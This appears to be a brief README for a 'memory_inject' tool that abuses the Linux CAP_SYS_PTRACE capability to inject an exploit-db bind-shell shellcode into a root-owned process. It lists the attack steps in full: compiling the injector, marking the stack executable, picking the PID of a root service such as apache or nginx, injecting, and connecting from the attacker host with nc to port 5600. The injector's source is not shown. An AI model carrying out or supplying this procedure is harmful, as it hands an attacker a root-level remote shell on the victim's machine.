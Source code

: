 # memory_inject CAP_SYS_PTRACE capability

Linux/x64 - Bind (5600/TCP) Shell Shellcode (87 bytes) 
https://www.exploit-db.com/exploits/41128

1) The EUID of the process in 0 (aka privileged process)
2) The program file has CAP_SYS_PTRACE capability to debug the process 

TCP bind shell

victim host
1) $ gcc -o inject_mem inject_mem.c
2) $ execstack -s inject_mem
3) $ ps -eaf -> find pid number under root (apache, nginx, python, etc)
4) $ ./inject_me pid_number

attacker host
1) $ nc victim_host 5600
